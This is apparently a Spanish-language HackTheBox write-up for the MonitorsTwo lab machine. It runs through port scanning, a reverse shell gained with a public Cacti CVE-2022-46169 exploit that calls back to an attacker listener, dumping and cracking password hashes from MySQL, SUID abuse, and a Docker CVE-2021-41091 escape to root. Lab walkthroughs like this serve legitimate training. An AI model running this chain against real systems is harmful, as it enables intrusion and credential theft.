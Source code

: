 ```yaml
---
title: HackTheBox - MonitorsTwo
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'RCE (CVE-2022-46169)', 'Docker Breakout (CVE-2021-41091)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/MonitorsTwo/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: MonitorsTwo Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **RCE (CVE-2022-46169), Docker Breakout (CVE-2021-41091)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina MonitorsTwo**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/MonitorsTwo/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p22,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/MonitorsTwo/02-versions.png)

c. Vemos el servicio web de la página web

![](/assets/images/HTB/Easy/MonitorsTwo/03-web.png)

* Si buscamos por alguna vulnerabilidad del servicio **cacti 1.2.22** nos encontramos con [CVE-2022-46169](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22/blob/main/CVE-2022-46169.py)

* Nos ponemos en escucha con **nc**, y ejecutamos el script


    ```bash
    root@kali> python exploit.py -u http://10.10.11.211/ --LHOST=10.10.14.174 --LPORT=443
    --------------------------------------------------------------------------------------
    root@kali> nc -lvnp 443
    www-data@50bca5e748b0:/var/www/html$
    ```

### Escalada de Privilegios 💹

a. Estamos en un contenedor

```bash
www-data@50bca5e748b0:/var/www/html$ hostname -I
172.19.0.3
```

* Vemos el fichero **entrypoint.sh** en la raíz del sistema

    ```bash
    www-data@50bca5e748b0:/$ cat entrypoint.sh

    mysql --host=db --user=root --password=root cacti
    <SNIP>
    ```

* Con la cadena conexión de mysql nos conectamos a este servicio y lo inspeccionamos

    ```bash
    www-data@50bca5e748b0:/$ mysql --host=db --user=root --password=root

    MySQL [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | cacti   <---       |
    | mysql              |
    | performance_schema |
    | sys                |
    +--------------------+
    5 rows in set (0.002 sec)

    MySQL [(none)]> use cacti;
    MySQL [(none)]> show tables;

    <SNIP>
    | user_auth          |
    <SNIP>
    MySQL [cacti]> select username, password from user_auth;
    +----------+--------------------------------------------------------------+
    | username | password                                                     |
    +----------+--------------------------------------------------------------+
    | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
    | guest    | 43e9a4ab75570f5b                                             |
    | marcus   | $2y$10$vcrYth5Y[SNIP]                                        |
    +----------+--------------------------------------------------------------+
    ```

b. Crackeamos los hashes de **admin** y **marcus** con john

```bash
root@kali> john hashes.txt -w=/usr/share/wordlists/rockyou.txt
<Hash marcus>:f[SNIP]y
```

c. Estas credenciales nos sirven para autenticarnos en el servicio **`SSH`**

```bash
root@kali> ssh marcus@10.10.11.211
marcus@monitorstwo:~$
```

* Después de inspeccionar todo el sistema en busca de formas de escalar privilegios nos encontramos con este mensaje

    ```bash
    marcus@monitorstwo:~$ cat /var/mail/marcus

    From: administrator@monitorstwo.htb
    To: all@monitorstwo.htb

    CVE-2021-33033: This vulnerability <SNIP>
    CVE-2020-25706: This cross-site scripting <SNIP>
    CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization.<SNIP>
    ```

* La vulnerabilidad que más nos llama la atención es **`CVE-2021-41091`** ya que implica el uso de Docker. Al buscar un exploit con ese CVE con encontramos con [esto](https://github.com/UncleJ4ck/CVE-2021-41091), para que este script funcione debemos darle permiso **SUID** a la bash de un contenedor


d. Buscaremos formas de escalar privilegios en el contenedor

```bash
www-data@50bca5e748b0:/var/www/html$ find / -perm -4000 2>/dev/null
<SNIP>
/sbin/capsh
```

* En [gtfobins](https://gtfobins.github.io/gtfobins/capsh/#suid) encontramos una forma, y le daremos permiso SUID a la bash

    ```bash
    www-data@50bca5e748b0:/var/www/html$ capsh --gid=0 --uid=0 --
    root@50bca5e748b0:/var/www/html# chmod +s /bin/bash
    ```

e. Por último ejecutamos el [script](https://github.com/UncleJ4ck/CVE-2021-41091) y conseguiremos acceso como root

```bash
marcus@monitorstwo:/tmp$ ./exploit.sh

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes

[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didnt spawn a shell go to this path and execute './bin/bash -p'

marcus@monitorstwo:/tmp$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
```